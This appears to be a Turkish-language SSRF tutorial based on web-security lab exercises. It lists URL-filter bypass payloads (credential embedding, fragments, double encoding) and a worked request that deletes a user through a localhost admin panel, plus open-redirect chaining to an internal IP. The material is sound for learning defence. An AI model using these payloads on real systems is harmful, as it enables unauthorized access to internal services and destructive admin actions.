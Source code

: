 
### 8-Whitelist based input filters ile SSRF

Whitelist tabanlı input filtrelerini atlatmak için aşağıdaki teknikler kullanılabilir:

- Kimlik bilgilerini URL’ye gömmek:  
    `https://expected-host:fakepassword@evil-host`
    
- URL fragment’ini kullanmak:  
    `https://evil-host#expected-host`
    
- DNS naming hiyerarşisinden faydalanmak:  
    `https://expected-host.evil-host`
    
- URL encoding yapmak:  
    `https://evil%2Dhost/expected-host`
    
- Double-encoding yapmak:  
    `https://evil%252Dhost/expected-host`

Örnek : 

`http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`

1. **Hedef**: Saldırgan, uygulamanın URL işleme açığını kullanarak sunucudan `localhost` üzerindeki admin paneline istek gönderiyor.  
2. **URL Yapısı**: `http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`, internal sisteme erişimi gizlemek için özel hazırlanmış.  
3. **Filtre Atlatma**: `@stock.weliketoshop.net`, uygulamanın domain doğrulama filtresini geçmek için ekleniyor.  
4. **%2523 Kullanımı**: Çift kodlanmış `#` (`%2523`), URL parsing'i yanıltarak `localhost`’u gizliyor.  
5. **İstek Yönlendirme**: Sunucu, `http://localhost/admin/delete?username=carlos` adresine istek gönderiyor.  
6. **Sonuç**: Yönetici paneli, `carlos` kullanıcısını silen işlemi tetikliyor.


### 9- Open redirection aracılığıyla SSRF filtrelerini atlama

SSRF'ye karşı alınan önlemlerin fazla olduğu durumlarda, open redirection aracılığıyla SSRF yapmak mümkün olabilir.

Örneğin uygulama aşağıdaki URL'nin bulunduğu bir open redirection güvenlik açığı içeriyor:

```
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

URL filtresini atlamak için open redirection güvenlik açığından yararlanabilir ve SSRF güvenlik açığını aşağıdaki şekilde kullanabilirsiniz:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
